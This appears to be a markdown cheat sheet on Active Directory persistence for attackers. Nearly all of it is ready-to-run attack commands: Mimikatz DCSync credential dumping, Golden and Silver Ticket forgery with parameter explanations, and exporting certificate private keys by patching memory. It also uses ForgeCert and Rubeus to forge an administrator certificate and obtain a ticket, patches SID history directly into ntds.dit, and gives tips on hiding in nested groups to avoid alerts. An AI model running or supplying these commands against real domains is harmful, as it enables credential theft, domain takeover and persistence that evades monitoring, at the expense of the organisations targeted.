 
# #Persistence with Credentials:
### The goal then is to persist with near-privileged credentials.
  - **Credentials that have local administrator rights on several machines**
  - **Service accounts that have delegation permissions**
  - **Accounts used for privileged AD services**

### there are many ways to dump credentials or hijack sessions.
for example:

## DCSync:
```
  - mimikatz # lsadump::dcsync /domain:<Domain-name> /all
```

# #Persistence with Tickets:
  - **Golden Tickets**
  - **Silver Tickets**

### Generate Golden Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/krbtgt** -The NTLM hash of the KRBTGT account.
  - **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
  - **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
 - after executing this, the ticket is loaded into memory and we can access privileged resources in the domain

### Generate Silver Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/target** - The hostname of our target server. Let's do SERVERname.sub.DomainName.com, but it can be any domain-joined host.
  - **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of SERVERname$. The $ indicates that it is a machine account.
  - **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
- after executing this, the ticket is loaded into memory and we can access a specific privileged resources in the domain


# #Persistence with Certificates:
  - **view the Stored certificates on the DC**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine
  ```
  - **patch memory to make private keys exportable**
  ```
  mimikatz # crypto::capi
  mimikatz # crypto::cng
  ```
  - **Use mimikatz to Export the certificates:**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine /export
  # now we have PFX or DER file
  ```
  - **if we have the private key and root CA certificate, we can forge a Client Authenticate certificate for any user we want.**
  ```
  ForgeCert.exe --CaCertPath Filename.pfx --CaCertPassword <filepassword> --Subject CN=User --SubjectAltName Administrator@<FQDN> --NewCertPath fullAdmin.pfx --NewCertPassword Password123
  ```
  - **We can use Rubeus to request a TGT using the certificate**
  ```
    Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<certFile> /password:<certFile-password> /outfile: /domain:<DomainName> /dc:<DC-IP>
  ```
  - **Use mimikatz to use TGT to Authenticate to LogonServer**
  ```
  mimikatz # kerberos::ptt administrator.kirbi
  mimikatz # exit
  # Done! we have the session.
  ```
  
  # #Persistence with SID History:
  ## Notes:
      - Since the SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group
      - but our account can simply be a normal user account with membership only to the Domain Users group.
  ### operations:
      -  let's make sure that our low-privilege user does not currently have any information in their SID history
      ```ps1
        Get-ADUser <your ad username> -properties sidhistory,memberof
      ```
      - Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History:
      ```ps1
        Get-ADGroup "Domain Admins"
      ```      
      - we will use the ![DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file
      ```ps1
        Stop-Service -Name ntds -force
        Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit
        Start-Service -Name ntds
      ```
      
  # #Persistence with Group Memebership (Nested Groups):
  ## Notes:
    - Groups that provide local administrator rights are often not monitored as closely as protected groups. With local administrator rights to the correct hosts through group membership of a network support group, we may have good persistence that can be used to compromise the domain again.
    - It is not always about direct privileges. Sometimes groups with indirect privileges, such as ownership over Group Policy Objects (GPOs), can be just as good for persistence
    - This also becomes a monitoring problem. Let's say, for instance, we have an alert that fires off when a new member is added to the Domain Admins group. That is a good alert to have, but it won't fire off if a user is added to a subgroup within the Domain Admins group
    - Rather than adding ourselves to a privileged group that would raise an alert, we add ourselves to a subgroup that is not being monitored.
  
    
      
      
      
      
      
      
      
  
  
